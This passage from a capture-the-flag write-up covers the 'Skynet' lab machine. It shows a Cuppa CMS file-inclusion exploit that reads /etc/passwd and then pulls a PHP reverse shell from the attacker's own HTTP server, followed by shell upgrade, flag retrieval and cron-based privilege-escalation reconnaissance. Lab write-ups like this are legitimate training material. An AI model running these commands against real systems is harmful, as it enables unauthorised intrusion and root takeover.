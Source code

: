 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250301162558.png)

Non of our found credentials works. After searching google for cuppa cms exploit, I found:
https://www.exploit-db.com/exploits/25971
Let's try

```
http://10.10.47.6/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250301162923.png)
## Gaining Access

Create reverse shell
https://www.revshells.com/
I used PHP PentestMonkey and download it. Host it via python server

```
python3 -m http.server 80
```

and edit ems exploit

```
http://10.10.47.6/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.23.75.166/payload.sh
```

start nc 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250301164409.png)

We have shell, let's upgrade to TTY shell and grab first flag

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
cat /home/milesdyson/user.txt
```

## Privilege Escalation

I found backup process running every minute and we can abuse it.

```
www-data@skynet:/tmp$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```